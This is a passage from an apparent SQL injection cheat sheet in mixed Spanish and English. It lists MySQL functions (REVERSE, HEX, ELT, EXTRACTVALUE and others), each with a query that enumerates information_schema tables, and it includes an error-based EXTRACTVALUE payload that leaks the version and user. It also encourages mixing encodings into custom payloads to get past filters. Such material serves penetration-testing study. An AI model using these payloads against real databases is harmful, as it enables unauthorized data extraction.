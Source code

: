 Sintaxis: `REVERSE(str)`

Example:

`Select reverse(reverse(table_Name)) from information_schema.tables`

NOTE: double reverse is used so that the information is understandable 

### RIGHT

sintaxis: `RIGHT(str,len)`

Example:

`select right(table_name, 100) from information_schema.tables`

### ELT 

Sintaxis: `ELT(N, str1[, str2, str3,...])`

Example:

`Select elt(1, table_Name) from information_schema.tables`

### HEX

Sintaxis: `HEX(N_or_S)`

Example:

`Select hex( table_Name) from information_schema.tables`

### HUNEX

Sintaxis: `UNHEX(str)`

Example: `Select unhex(hex( table_Name)) from information_schema.tables`

### CASE

Example: `SELECT CASE WHEN (1=1) THEN table_name ELSE false END from information_schema.tables`

### IF

Example: `SELECT if(1=1,table_name,'<h3><font color=blue> Tablas:</h3>') from information_schema.tables`

### EXTRACTVALUE

Sintaxis: `EXTRACTVALUE(xml_frag, xpath_expr)`

Example: `SELECT extractvalue(rand(),concat(0x7e,version(),0x7e,user()))`

With this in mind, we can mix between functions, different types of coding and different syntax in the sql sequences to create increasingly personalized payloads.


## Moving from sql Injection to other vulnerabilities
